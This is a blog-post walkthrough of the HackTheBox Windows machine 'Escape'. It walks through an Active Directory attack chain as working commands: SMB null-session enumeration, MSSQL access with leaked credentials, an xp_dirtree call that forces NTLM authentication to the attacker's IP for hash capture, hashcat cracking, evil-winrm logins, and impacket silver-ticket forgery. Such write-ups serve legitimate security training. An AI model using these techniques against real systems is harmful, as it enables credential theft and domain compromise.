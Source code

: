 ```yaml
---
title: Escape @ HackTheBox - Complete Walkthrough
date: 2025-04-25 13:00:00 
last_modified_at: 2025-04-25 13:00:00
categories: [HTB Machines,Windows Machines]
tags: [hackthebox,escape machine,penetration testing,cybersecurity,walkthrough,windows,active directory]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post3/Escape.jpg
  alt: "Escape Machine - HackTheBox Windows Challenge"
author: Ahmed BAHYA
excerpt: "Complete walkthrough of the Escape machine on HackTheBox. Learn Windows penetration testing techniques, privilege escalation, and Active Directory exploitation in this cybersecurity challenge."
description: "Step-by-step walkthrough of the Escape machine on HackTheBox. Master Windows penetration testing, privilege escalation techniques, and Active Directory exploitation in this comprehensive cybersecurity challenge guide."
keywords: [hackthebox, escape machine, windows, penetration testing, cybersecurity, walkthrough, privilege escalation, active directory, exploitation]
canonical_url: https://b2hu.me/posts/Escape-HTB-Walkthrough
---
```

**Hello** This is a very simple walkthrough for the windows machine Escape (medium). In this walkthrough we'll practice AD enumeration and Exploitation, without further ado let's get into it.
## Enumeration
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
the scan showes multiple windows AD specific ports open inidicating the machine is a Domain Controller, with a domain name of sequel.htb
after adding the file to /etc/hosts i started enumerarting the services (ldap,smb,etc) and trying to collect information.
After that i found that a Null session was possible in the SMB, so l'ets see whats there :
```shell
smbclient -L //sequel.htb 
```
this command listed the possible share drives, and among them was folder called Public.
```shell
smbclient -U "" //sequel.htb/Public
```
i found a .pdf and i downloaded it using **get**.
Interestingly enough, inside the PDF file, we can find credentials to access the MSSQL instance that we noticed during our initial enumeration, and for this we'll use **impacket-msssqlclient**
```shell
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
```
## Foothold
after gaining access i tried many techniques like enabling xp_cmdshell but sadly nothing works, and therefor i tried to force the mssql instance to authenticate to my machine to capture the NTLM hash of the service account responder. 
First let's set up responder :
```shell
sudo responder -I tun0 -v
```
Then, we ask from SQL to list files on our machine using a UNC (Universal Naming Convention) path.
```shell
EXEC MASTER.sys.xp_dirtree '\\10.10.14.7\b2hu', 1, 1
```
back to responder and it seems that he caught the ntlm hash of the user account **sql_svc**, now lets crack it using hashcat (the hash format is NetNTLMv2 and the code is 5600)
```shell
hashcat -m 5600 hash.txt /usr/share/wordlist/rockyou.txt
```
the password seems to be **REGGIE1234ronnie**.
now let's try to authenticate as the user sql_svc over WinRM. We will use evil-winrm.
```shell
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```
## Lateral Movement
we accessed thee sql_svc but there's no **user.txt** file a quick look at the C:\Users folder showed a user **Ryan.Cooper** which indicates that this user might be the target user, while searching for any lead to move to the ryan user i found a log file inside the sqlserver folder, it appears that this user failed to login to the sql instance using this password : **"NuclearMosquito3"**, and this password would most likely be his account's password, let's test it :
```shell
evil-winrm -i sequel.htb -u Ryan.Cooper -p NuclearMosquito3
```
it worked, and now we can retrieve the **user.txt** falg
### PrivEsc
in this step i'll try to forge a ticket for the admin user to access the mssql database and execute xp_cmdshell, this attack verctor is known as **silver ticket**, since we've got the creds for the sql_svc account lets try to get th sid of the domin
```shell
PS C:\Users\Ryan.Cooper\Documents> Get-LocalUser -Name $env:USERNAME | Select sid

SID
---
S-1-5-21-4078382237-1492182817-2568127209-1105
```
the domain SID is all but the last part, next we need the NTLM hash of the svc_sql account, using this <a href=https://codebeautify.org/ntlm-hash-generator>online tool</a> to create it :
```text
1443EC19DA4DAC4FFC953BCA1B57B4CF
```
The spn parameter is needed to produce a valid ticket but we can place anything we want since it's not set
to begin with.
```text
b2hu/DC.SEQUEL.HTB
```
Now, we can craft a ticket for the MSSQL service.
```shell
impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF
-domain-sid S-1-5-21-
4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn
nonexistent/DC.SEQUEL.HTB Administrator
```
Now, we export our ticket and authenticate to the service using Kerberos authentication.
```shell
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k dc.sequel.htb
```
Now, we can use the following queries to read the user.txt as well as the root.txt 
```shell
SELECT * FROM OPENROWSET(BULK N'C:\users\ryan.cooper\desktop\user.txt', SINGLE_CLOB) AS
Contents
SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB)
AS Contents
```